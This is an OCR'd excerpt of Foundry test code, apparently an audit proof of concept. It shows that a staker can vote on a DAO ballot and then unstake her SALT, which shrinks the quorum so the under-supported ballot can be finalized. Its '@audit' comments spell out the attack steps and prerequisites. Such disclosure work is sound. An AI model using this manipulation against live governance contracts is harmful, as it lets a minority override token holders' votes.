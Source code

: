 ```js

        // Propose a parameter ballot
        proposals.proposeParameterBallot(proposalNum, "Increase max pools count");

		// Alice casts a vote, but not enough for quorum
        proposals.castVote(ballotID, Vote.INCREASE);
		vm.stopPrank();

		skip(11 days);

        // Expect revert because quorum has not yet been reached and do a premature finalization attempt
        // minQuorum required = 10% of (6_000_000 + 650_000) ether = 665_000 ether
        vm.expectRevert("The ballot is not yet able to be finalized");
        dao.finalizeBallot(ballotID);

		// Alice unstakes her SALT
		vm.prank(alice);
		staking.unstake(aliceStakedAmount, 52);

        // Now it should be possible to finalize the ballot without reverting
        // @audit : minQuorum required now = 10% of (6_000_000) ether = 600_000 ether and since Alice had already casted 650_000 votes, so this will pass
        dao.finalizeBallot(ballotID);
        // Check that the ballot is finalized
        bool isBallotFinalized = !proposals.ballotForID(ballotID).ballotIsLive;
        assertTrue(isBallotFinalized);
    }
    
	function test_unstakingManipulatesVotingPower() public {
		// @audit-info : Pre-requisite for the attack `StakingConfig.minUnstakeWeeks <= ballotMinimumDuration`. Either
		// increase `ballotMinimumDuration` to 14 days OR decrease `StakingConfig.minUnstakeWeeks` to 1 week.
		vm.startPrank( address(dao) );
		daoConfig.changeBallotDuration(true);
		daoConfig.changeBallotDuration(true);
		daoConfig.changeBallotDuration(true);
		daoConfig.changeBallotDuration(true);
		assertEq(daoConfig.ballotMinimumDuration(), 14 days, "ballot duration != 14 days");
		vm.stopPrank();

        deal(address(salt), address(DEPLOYER), 6_000_000 ether);
		vm.prank(DEPLOYER);
        staking.stakeSALT(6_000_000 ether);
        
        // Set up the parameters for the proposal
        uint256 proposalNum = 0; // Assuming an enumeration starting at 0 for parameter proposals
        uint256 ballotID = 1;

        // Alice stakes her SALT to get voting power
		uint256 aliceStakedAmount = 650_000 ether;
        deal(address(salt), address(alice), aliceStakedAmount);

        vm.startPrank(alice);
        staking.stakeSALT(aliceStakedAmount);
        // Propose a parameter ballot
        proposals.proposeParameterBallot(proposalNum, "Increase max pools count");
		// Alice casts a vote, but not enough for quorum
        // minQuorum required = 10% of (6_000_000 + 650_000) ether = 665_000 ether
        proposals.castVote(ballotID, Vote.INCREASE);
		assertEq(proposals.votesCastForBallot(ballotID, Vote.INCREASE), aliceStakedAmount);
		vm.stopPrank();
```